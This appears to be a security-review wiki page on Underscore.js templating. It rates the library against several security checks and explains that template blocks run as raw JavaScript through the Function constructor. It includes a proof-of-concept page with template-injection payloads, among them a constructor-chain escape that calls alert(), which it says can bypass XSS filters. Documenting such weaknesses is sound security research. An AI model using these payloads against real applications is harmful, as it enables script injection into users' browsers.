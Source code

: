 

# Introduction #

"Underscore is a utility-belt library for JavaScript that provides a lot of the functional programming support that you would expect in Prototype.js (or Ruby), but without extending any of the built-in JavaScript objects. It's the tie to go along with jQuery's tux, and Backbone.js's suspenders.

Underscore provides 80-odd functions that support both the usual functional suspects: map, select, invoke — as well as more specialized helpers: function binding, javascript templating, deep equality testing, and so on. It delegates to built-in functions, if present, so modern browsers will use the native implementations of forEach, map, reduce, filter, every, some and indexOf."

From http://underscorejs.org/

# Quick Facts #

  * [Underscore.js 1.5.1 (Uncompressed)](http://underscorejs.org/underscore.js)
  * Usage Stats http://trends.builtwith.com/javascript/Underscore.js

  * **{}SEC-A** <font color='red'><b>FAIL</b></font> Template expressions are equivalent to `eval`
  * **{}SEC-B** <font color='red'><b>FAIL</b></font> No sandbox or isolated execution scope
  * **{}SEC-C** <font color='green'><b>PASS</b></font> Only `SCRIPT` elements with proper type can serve as template containers
  * **{}SEC-D** <font color='red'><b>FAIL</b></font> No enforced separation, no obvious way to outsource templates to static files
  * **{}SEC-E** <font color='red'><b>FAIL</b></font> No dedicated security response program, no security@underscorejs.org address

# Injection Attacks #

Underscore.js, similar to CanJS, uses ERB-style templates by default. Everything that is placed in-between the <% and %> or its siblings is being treated as raw JavaScript. The evaluation of the template strings happens via the usual `Function` constructor.

Whenever the developer has control over content of the ERB-style template blocks, script injections and XSS are very much likely. The "paste-and-go" code example below shows several cases an attacker can use to bypass server- and browser side XSS filters in case the attacked Underscore.js application allows injections.

```
<script type='text/javascript' src='http://code.jquery.com/jquery-git.js'></script>
<script type='text/javascript' src="http://documentcloud.github.com/underscore/underscore-min.js"></script>

<script type='text/javascript'>
$(window).load(function(){
	
_.template($(x).html(), {});
_.template('<% alert(3) %>', {});
	
});
</script>

<script type="text/html" id='x'>
    <% alert(1) %>
    <%= _.constructor.constructor("alert(2)")() %>
</script>
```

## Eval via Function ##

```
j.template = function(n, t, r) {
        var e;
        r = j.defaults({}, r, j.templateSettings);
        var u = new RegExp([(r.escape || q).source, (r.interpolate || q).source, (r.evaluate || q).source].join("|") + "|$", "g"), i = 0, a = "__p+='";
        n.replace(u, function(t, r, e, u, o) {
            return a += n.slice(i, o).replace(z, function(n) {
                return "\\" + B[n]
            }), r && (a += "'+\n((__t=(" + r + "))==null?'':_.escape(__t))+\n'"), e && (a += "'+\n((__t=(" + e + "))==null?'':__t)+\n'"), u && (a += "';\n" + u + "\n__p+='"), i = o + t.length, t
        }), a += "';\n", r.variable || (a = "with(obj||{}){\n" + a + "}\n"), a = "var __t,__p='',__j=Array.prototype.join," + "print=function(){__p+=__j.call(arguments,'');};\n" + a + "return __p;\n";
        try {
            e = new Function(r.variable || "obj", "_", a)
        } catch (o) {
            throw o.source = a, o
        }
        if (t)
            return e(t, j);
        var c = function(n) {
            return e.call(this, n, j)
        };
        return c.source = "function(" + (r.variable || "obj") + "){\n" + a + "}", c
    }
```